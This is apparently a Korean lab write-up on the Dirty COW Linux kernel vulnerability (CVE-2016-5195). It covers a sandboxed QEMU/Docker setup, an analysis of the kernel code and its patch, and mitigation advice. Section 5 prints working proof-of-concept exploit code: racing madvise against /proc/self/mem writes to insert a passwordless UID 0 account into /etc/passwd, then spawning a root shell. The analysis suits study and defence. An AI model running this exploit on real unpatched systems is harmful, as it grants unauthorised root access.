

# CVE-2016-5195: Dirty COW

## 1. 취약점 요약

CVE-2016-5195(Dirty COW)는 Linux 커널의 Copy-On-Write(COW) 처리 과정에서
발생하는 race condition 취약점이다. 로컬 저권한 사용자가 읽기 전용으로
매핑한 파일의 원본 내용을 변경할 수 있으며, `/etc/passwd`나 setuid 실행
파일처럼 root가 소유한 파일을 변조하면 관리자 권한으로 상승할 수 있다.

## 2. 환경 구성

### 2.1 구성

Dirty COW는 사용자 공간 프로그램이 아니라 Linux **커널**의 취약점이다.
일반 Docker 컨테이너는 컨테이너 이미지에 포함된 커널을 사용하는 것이
아니라 호스트 커널을 공유한다. 따라서 오래된 Ubuntu Docker 이미지만
실행해서는 취약한 커널 환경을 만들 수 없다.
이 실습은 Docker 컨테이너 안에서 QEMU를 실행하고, QEMU가 취약한 Linux
4.8.2 커널과 전용 initramfs를 부팅하도록 구성했다. 호스트 커널을
교체하지 않으면서 제출 파일만으로 동일한 환경을 재현할 수 있다.

```
### 2.2 파일 구성

`Dockerfile` : Ubuntu 24.04에 QEMU를 설치하고 실습 파일을 복사한다. 
`docker-compose.yml` : 이미지 빌드, TTY 연결, 네트워크 차단을 설정한다. 
`run.sh` : 취약 커널과 initramfs를 QEMU로 부팅한다. 
`bzImage` : 실습용 Linux 4.8.2 커널이다. 
`rootfs.cpio` : BusyBox, PoC, 사용자 및 flag가 포함된 initramfs이다. 
`poc/dirtycow.c` : `/etc/passwd`를 변조하고 UID 0 셸을 실행하는 PoC이다. 
`rootfs-src/init` : 파일 시스템 마운트와 권한 설정 후 셸을 연다. 
`build-rootfs.sh` : PoC를 정적 빌드하고 initramfs 및 checksum을 다시 만든다.
`SHA256SUMS` : 제출한 커널과 initramfs의 무결성을 검증한다.

### 2.3 Docker 구성

`Dockerfile`은 공식 Ubuntu 이미지를 QEMU 실행기로만 사용한다.

```dockerfile
FROM ubuntu:24.04

RUN apt-get update \
    && apt-get install -y --no-install-recommends qemu-system-x86 \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /app
COPY bzImage rootfs.cpio run.sh ./
RUN chmod +x run.sh
CMD ["./run.sh"]
```

`docker-compose.yml`은 하나의 명령 흐름으로 이미지를 빌드하고 QEMU의
시리얼 콘솔을 현재 터미널에 연결한다.

```yaml
services:
  dirtycow:
    build: .
    network_mode: none
    stdin_open: true
    tty: true
```

`run.sh`는 2개의 가상 CPU를 제공해 두 race 스레드가 동시에 실행되게
하며, 최대 실행 시간을 45초로 제한한다.

```bash
timeout --foreground 45s qemu-system-x86_64 \
    -machine accel=tcg \
    -cpu qemu64 \
    -m 256M \
    -smp 2 \
    -kernel /app/bzImage \
    -initrd /app/rootfs.cpio \
    -append "console=ttyS0 quiet panic=-1 oops=panic" \
    -display none \
    -monitor none \
    -serial stdio \
    -no-reboot
```

부팅된 VM의 `/init`은 `/proc`, `/sys`, `/dev`를 마운트하고
`/etc/passwd`를 0444, `/root/flag`를 0400으로 설정한다. 그 뒤 PID 1의
root 권한으로 PoC를 자동 실행하지 않고 UID 1000인 `student` 셸을 열어,
사용자가 직접 취약점을 재현하게 했다.

## 3. CVE 분석

### 3.1 배경 개념: MAP_PRIVATE와 Copy-On-Write

`mmap(..., MAP_PRIVATE, ...)`는 private copy-on-write mapping을 만든다.
프로세스가 mapping에 쓰기를 시도하면 커널은 private page를 생성하고
변경 내용을 그 page에만 반영해야 한다. 다른 프로세스와 원본 파일에는
변경이 보이면 안 된다.

```text
읽기 전용 파일
  ↓ mmap(PROT_READ, MAP_PRIVATE)
파일 page를 가상 메모리에서 참조
  ↓ write fault
private COW page 생성
  ↓
private page만 변경
  ↓
원본 파일은 변경되지 않아야 함
```

### 3.2 `/proc/self/mem` 쓰기 경로

PoC가 `/proc/self/mem`에 write하면 당시 커널에서 다음과 같은 흐름으로
대상 가상주소의 `struct page`를 얻고 내용을 복사한다.

```text
write()
  → sys_write()
  → vfs_write()
  → mem_write()
  → mem_rw()
  → access_remote_vm()
  → __access_remote_vm()
  → get_user_pages() / __get_user_pages()
  → copy_to_user_page()
```

`__access_remote_vm()`의 핵심 호출은 다음과 같다.

```c
ret = get_user_pages(tsk, mm, addr, 1, write, 1, &page, &vma);
```

여기서 `write=1`, `force=1`이 전달되며 내부에서 각각 `FOLL_WRITE`,
`FOLL_FORCE`로 변환된다. 즉 쓰기용 page를 요구하면서 일반적인 mapping
permission을 강제로 넘어가는 접근이다.

### 3.3 `follow_page()`와 `__get_user_pages()`

`follow_page()`는 page table을 따라 가상주소에 대응하는 page를 찾는다.
`FOLL_WRITE`가 설정되었는데 PTE가 writable하지 않으면 쓰기용 page로
반환할 수 없으므로 lookup이 실패한다.

```c
if ((flags & FOLL_WRITE) && !pte_write(pte))
    goto unlock;
```

취약한 `__get_user_pages()`는 lookup 실패 후 write fault를 처리한다.
문제의 핵심은 COW fault가 발생했지만 VMA 자체에 `VM_WRITE`가 없을 때
`FOLL_WRITE`를 제거하고 다시 page를 찾는 동작이다.

```c
while (!(page = follow_page(vma, start, foll_flags))) {
    unsigned int fault_flags = 0;

    if (foll_flags & FOLL_WRITE)
        fault_flags |= FAULT_FLAG_WRITE;

    ret = handle_mm_fault(mm, vma, start, fault_flags);

    if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
        foll_flags &= ~FOLL_WRITE;
}
```

작업의 실제 목적은 여전히 write인데 `FOLL_WRITE`가 사라지므로, 다음
lookup에서는 writable PTE인지 확인하지 않게 된다.

### 3.4 `MADV_DONTNEED`와 race condition

`madvise(..., MADV_DONTNEED)`는 해당 mapping의 page가 당장 필요하지
않다고 커널에 알린다. private COW page가 버려진 뒤 다시 접근하면 원본
file-backed page로 mapping이 채워질 수 있다.

PoC는 다음 두 동작을 서로 경쟁시킨다.

```text
Writer thread                       Discard thread
-------------                       --------------
/proc/self/mem write                madvise(MADV_DONTNEED)
write fault 발생
private COW page 생성
FOLL_WRITE 제거
                                    private COW page 제거
follow_page() 재시도
원본 file-backed page 선택
copy_to_user_page()로 원본 변경
```

race에서 writer가 특정 순서를 얻으면 private page가 아닌 원본
file-backed page에 데이터가 기록된다. 본 PoC는 `/etc/passwd` 첫 부분에
아래 계정을 삽입한다.

```text
cow::0:0:Dirty Cow:/:/bin/sh
```

이 레코드는 password가 비어 있고 UID와 GID가 모두 0이다. 이후 `win()`이
`su cow`를 실행하면 root 권한의 대화형 셸을 획득한다.

### 3.5 패치 분석

#### 패치 핵심 1: `FOLL_COW` 추가

패치 전에는 COW fault가 발생하면 `FOLL_WRITE`를 제거했다. 이 때문에
실제 작업이 여전히 write 목적이라는 정보까지 사라지는 문제가 있었다.

```text
FOLL_WRITE의 원래 의미:
    write 가능한 page가 필요하다

패치 전 문제:
    COW가 발생하면 FOLL_WRITE를 지워버린다
```

패치에서는 새로운 `FOLL_COW` flag를 추가해 write 목적과 COW 처리
상태를 서로 분리했다.

```text
FOLL_WRITE:
    이 작업은 여전히 write 목적이다

FOLL_COW:
    이 작업은 이미 COW cycle을 거쳤다
```

#### 패치 핵심 2: `can_follow_write_pte()` 추가

write 목적으로 현재 PTE를 따라가도 안전한지 판단하는 별도의 함수를
추가했다.

```c
static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
{
    return pte_write(pte) ||
           ((flags & FOLL_FORCE) &&
            (flags & FOLL_COW) &&
            pte_dirty(pte));
}
```

- `pte_write(pte)`: 현재 PTE가 실제 writable이면 follow를 허용한다.
- `FOLL_FORCE && FOLL_COW`: 강제 접근이며 정상적인 COW cycle을 거쳤는지
  확인한다.
- `pte_dirty(pte)`: COW 처리 결과 해당 PTE에 실제 write가 발생했는지
  확인한다.

```text
PTE가 writable이다
  → 허용

PTE가 writable하지 않다
  → FOLL_FORCE + FOLL_COW + pte_dirty가 모두 참일 때만 허용

그 외
  → 거부하고 다시 fault 처리
```

`madvise(MADV_DONTNEED)`가 private COW page를 제거해 original
file-backed page가 다시 선택되는 상황에서는 위 조건을 만족하지
못하므로 원본 page에 대한 write가 차단된다.

#### 패치 핵심 3: `follow_page_pte()` 검사 변경

패치 전에는 write 요청에서 PTE의 writable 여부만 검사했다.

```c
if ((flags & FOLL_WRITE) && !pte_write(pte)) {
    return NULL;
}
```

```text
write 목적이다
  ↓
PTE가 writable한가?
  ↓
아니면 실패
```

패치 후에는 `can_follow_write_pte()`를 사용해 COW 처리 상태와 dirty
여부까지 함께 검사한다.

```c
if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {
    return NULL;
}
```

```text
write 목적이다
  ↓
PTE가 writable한가?
  ↓ 아니면
FOLL_FORCE + FOLL_COW + pte_dirty 조건을 만족하는가?
  ↓
아니면 실패
```

즉 `FOLL_WRITE` 요청에서 단순히 `pte_write(pte)`만 보던 검사를
`can_follow_write_pte(pte, flags)` 검사로 강화했다.

#### 패치 핵심 4: `FOLL_WRITE` 제거를 `FOLL_COW` 설정으로 변경

패치 전에는 COW fault 발생 후 `FOLL_WRITE`를 제거했다.

```c
if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
    *flags &= ~FOLL_WRITE;
```

```text
COW 발생
  ↓
FOLL_WRITE 제거
  ↓
write 목적 정보 상실
```

패치 후에는 `FOLL_WRITE`를 유지하고 `FOLL_COW`를 추가한다.

```c
if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
    *flags |= FOLL_COW;
```

```text
COW 발생
  ↓
FOLL_WRITE 유지
  ↓
FOLL_COW 추가
  ↓
write 목적과 COW 완료 상태를 분리
```

결과적으로 race 도중 private COW page가 제거되더라도 원본
file-backed page를 write 가능한 page로 잘못 선택하지 않게 된다.

## 4. 취약 조건
취약 커널 : Linux 4.8.2
공격 위치 : 대상 시스템 내부의 로컬 사용자
대상 파일 : root 소유 `/etc/passwd`, mode 0444
필요한 기능 : `mmap`, `/proc/self/mem`, `madvise(MADV_DONTNEED)`, pthread
race 실행: QEMU vCPU 2개

## 5. PoC 코드

### 5.1 COW page 제거 스레드

```c
static void *discard_thread(void *unused)
{
    (void)unused;
    while (!atomic_load_explicit(&stop, memory_order_relaxed))
        madvise(mapping, mapping_len, MADV_DONTNEED);
    return NULL;
}
```

mapping에 `MADV_DONTNEED`를 반복 호출해 writer가 만든 private COW
page를 제거하는 race를 유도한다.

### 5.2 `/proc/self/mem` 쓰기 스레드

```c
static void *writer_thread(void *unused)
{
    int fd = open("/proc/self/mem", O_RDWR);

    while (!atomic_load_explicit(&stop, memory_order_relaxed)) {
        lseek(fd, (off_t)(uintptr_t)mapping, SEEK_SET);
        write(fd, payload, payload_len);
    }
    close(fd);
    return NULL;
}
```

`/proc/self/mem`의 file offset을 `/etc/passwd` mapping 주소로 옮기고 UID
0 계정 문자열을 반복해서 기록한다.

### 5.3 대상 mapping과 race 실행

```c
fd = open("/etc/passwd", O_RDONLY);
fstat(fd, &st);
mapping = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);

pthread_create(&discard, NULL, discard_thread, NULL);
pthread_create(&writer, NULL, writer_thread, NULL);

for (int i = 0; i < 3000; i++) {
    if (target_matches("/etc/passwd")) {
        success = 1;
        break;
    }
    usleep(10000);
}
```

PoC는 무한 반복 대신 최대 약 30초 동안 결과를 확인한다. payload가 실제
파일에 반영되면 두 스레드에 stop을 알리고 종료를 기다린다.

### 5.4 `win()`에서 root 셸 실행

```c
static void win(void)
{
    puts("[+] Dirty COW won the race. Spawning a UID 0 shell...");
    execl("/bin/su", "su", "cow", (char *)NULL);
    perror("exec su");
    exit(2);
}
```

## 6. 재현 절차

### 6.1 요구 사항

- Docker Engine
- Docker Compose v2 (`docker compose` 명령)
- x86-64 호스트
- 최초 이미지 빌드를 위한 인터넷 연결

### 6.2 무결성 확인 및 실행

README가 있는 디렉터리에서 아래 명령을 그대로 실행한다.

```bash
sha256sum -c SHA256SUMS
docker compose build --no-cache
docker compose run --rm dirtycow
```

부팅 후 `/ $` 프롬프트가 나타나면 PoC를 직접 실행한다.

```sh
/dirtycow
```

race가 성공하면 프롬프트가 `~ #`로 바뀐다. root 셸에서 권한과 flag를
확인한다.

```sh
id
cat /root/flag
poweroff -f
```

race 특성상 제한 시간 안에 성공하지 못할 수 있다. `[FAIL]`이 출력되면
VM을 다시 실행하고 `/dirtycow`를 재시도한다.

### 6.3 환경 정리

```bash
docker compose down --rmi local --remove-orphans
```

## 7. 실행 결과



실행 전에는 UID 1000 사용자가 `/root/flag`를 읽지 못하고 `/etc/passwd`를
직접 쓸 수도 없다. PoC 실행 후에는 `cow` 계정의 UID가 0으로 확인되고
root 전용 flag를 읽을 수 있는 LPE가 된다.

## 8. 대응 방안

1. 배포판이 제공하는 CVE-2016-5195 수정 커널로 업데이트한다


## 9. 평가
Reproducibility: 95%
Risk Score: 7.0 / 10.0 (High)